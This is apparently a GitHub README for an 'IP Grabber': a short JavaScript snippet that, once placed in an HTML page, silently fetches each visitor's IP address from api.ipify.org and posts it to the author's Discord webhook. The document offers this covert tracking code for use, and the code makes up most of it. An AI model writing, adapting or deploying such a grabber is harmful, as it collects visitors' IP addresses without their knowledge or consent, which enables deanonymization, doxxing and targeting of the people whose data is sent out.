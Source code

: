 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script uses JavaScript's `fetch` API to send a GET request to `https://api.ipify.org` to obtain the user's IP address. It then sends a POST request to a Discord webhook URL with the obtained IP address as the payload.

## Usage

Simply include the script in your HTML file. Just make sure to replace "YOUR_DISCORD_WEBHOOK_HERE" with your actual Discord webhook URL.:

```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('YOUR_DISCORD_WEBHOOK_HERE', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>
